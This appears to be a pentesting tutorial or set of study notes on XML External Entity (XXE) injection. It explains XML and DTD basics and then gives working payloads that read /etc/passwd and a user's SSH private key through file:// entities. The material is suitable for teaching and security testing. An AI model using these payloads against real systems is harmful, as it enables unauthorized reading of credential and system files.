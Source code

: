 
Wherever we can upload XML file try for XML injection

An XML External Entity (XXE) attack is a vulnerability that abuses features of XML parsers/data. It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system. They can also cause Denial of Service (DoS) attack or could use XXE to perform Server-Side Request Forgery (SSRF) inducing the web application to make requests to other applications. XXE may even enable port scanning and lead to remote code execution.

There are two types of XXE attacks: in-band and out-of-band (OOB-XXE).

1. An in-band XXE attack is the one in which the attacker can receive an immediate response to the XXE payload.
    
2. out-of-band XXE attacks (also called blind XXE), there is no immediate response from the web application and attacker has to reflect the output of their XXE payload to some other file or their own server.
    

**What is XML?**

XML (eXtensible Markup Language) is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable. It is a markup language used for storing and transporting data.

**Why we use XML?**

1. XML is platform-independent and programming language independent, thus it can be used on any system and supports the technology change when that happens.
    
2. The data stored and transported using XML can be changed at any point in time without affecting the data presentation.
    
3. _**XML allows validation using DTD and Schema. This validation ensures that the XML document is free from any syntax error.**_
    
4. XML simplifies data sharing between various systems because of its platform-independent nature. XML data doesn’t require any conversion when transferred between different systems.
    

Every XML document mostly starts with what is known as XML Prolog.

```xml
<?xml version="1.0" encoding="UTF-8"?>
```


Above the line is called XML prolog and it specifies the XML version and the encoding used in the XML document. This line is not compulsory to use but it is considered a `good practice` to put that line in all your XML documents.

_**Every XML document must contain a `ROOT` element.**_

```xml
<?xml version="1.0" encoding="UTF-8"?>
<mail>
   <to>falcon</to>
   <from>feast</from>
   <subject>About XXE</subject>
   <text>Teach about XXE</text>
</mail>
```


In the above example the \<mail> is the ROOT element of that document and \<to>, \<from>, \<subject>, \<text> are the children elements. If the XML document doesn't have any root element then it would be consideredwrong or invalid XML doc.

Another thing to remember is that XML is a case sensitive language. If a tag starts like \<to> then it has to end by \</to> and not by something like \</To>(notice the capitalization of T)

Like HTML we can use attributes in XML too. The syntax for having attributes is also very similar to HTML.

```xml
<text category = "message">You need to learn about XXE</text>
```


In the above example `category` is the attribute name and `message` is the attribute value.

**DTD stands for Document Type Definition.** A DTD defines the structure and the legal elements and attributes of an XML document.

Example : Say we have a file named `note.dtd` with the following content:

```xml
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

Now we can use this DTD to validate the information of some XML document and make sure that the XML file conforms to the rules of that DTD.

Below is given an XML document that uses `note.dtd`


```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note SYSTEM "note.dtd">  
<note>  
    <to>falcon</to>  
    <from>feast</from>  
    <heading>hacking</heading>  
    <body>XXE attack</body>  
</note>
```

Here's what all those terms used in `note.dtd` mean

- !DOCTYPE note -  Defines a root element of the document named note
- !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
- !ELEMENT to - Defines the `to` element to be of type "#PCDATA"
- !ELEMENT from - Defines the `from` element to be of type "#PCDATA"
- !ELEMENT heading  - Defines the `heading` element to be of type "#PCDATA"
- !ELEMENT body - Defines the `body` element to be of type "#PCDATA"

    \#PCDATA means parseable character data.

#### XXE Payload

***We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword***

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```


_**Here again, we are defining an ENTITY with the name `read` but the difference is that we are setting it value to `SYSTEM` and path of the file.**_ If we use this payload then a website vulnerable to XXE(normally) would display the content of the file `/etc/passwd`. In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.

To read id_rsa of a user

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/USER/.ssh/id_rsa'>]>
<root>&read;</root>
```

***dont forget ; after &read also indentation matters, sub-elements should be indented afte root element if there are any***

Exploit in Required Format

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```

Result

![[xxe.png]]